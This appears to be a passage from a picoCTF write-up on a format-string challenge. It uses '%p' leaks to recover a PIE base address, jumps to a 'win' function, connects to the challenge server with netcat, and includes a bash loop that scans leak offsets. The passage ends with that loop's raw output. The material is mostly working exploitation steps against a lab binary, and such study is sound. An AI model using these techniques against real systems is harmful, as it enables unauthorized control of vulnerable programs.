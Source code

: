 ```
    13f5:	48 89 c7             	mov    %rax,%rdi
    13f8:	e8 23 fd ff ff       	call   1120 <fclose@plt>
    13fd:	90                   	nop
    13fe:	c9                   	leave
    13ff:	c3                   	ret
```

win is at 136a so to jump to the win function I will replace the last 3 numbers of the address to 36a.

```
Enter your name:%23$p
0x55a13c389400
 enter the address to jump to, ex => 0x12345: 0x55a13c38936a
You won!
Cannot open file.
```

yay! I have completed it locally now I just need to netcat into the server and try it.

`nc rescued-float.picoctf.net 61043`

now to do the maths:
`400 - 36a = 96`

the 23rd leaked address on the server is 0x7fff2d900528.

I tried 0x7fff2d900492 but this didnt work. the 7fff doesnt look like the programs memory address.
I modified my script and checked for numbers with 4 in the 3 last digit:

#### My solution

```bash
#!/bin/bash

for i in {1..128}; do
    leak=$(echo -e "%$i\$p" | ./vuln | grep -o '0x[0-9a-fA-F]\{3,\}4[0-9a-fA-F]\{2,\}$')
    if [ -n "$leak" ]; then
        echo "value ($i): $leak"
    fi
done
```

i got back:

```
value (1): 0xa702431
value (3): 0xa702433
value (8): 0xa70243825
value (10): 0x7fd7cb4a45e0
value (11): 0x7fa4a1785299
value (13): 0x7fe4ff0c3079
value (18): 0x7ffe89678430
value (19): 0x55d3dcb5b441
value (23): 0x55d3e5466400
value (25): 0x7ffe5e47ba18
value (27): 0xdf4cd488fdd47754
value (32): 0x56583d90b436aa59
value (33): 0x5cb55679c79cf4f8
value (38): 0x7ffe453d6878
value (41): 0x7faf641f8305
value (42): 0x55ef09996400
value (47): 0x559dacd421c0
value (58): 0x7ffd46d78331
value (60): 0x7ffd1458e3a3
value (61): 0x7ffd3bfa43b6
value (62): 0x7ffe0f64d3ca
value (65): 0x7ffc215bf404
```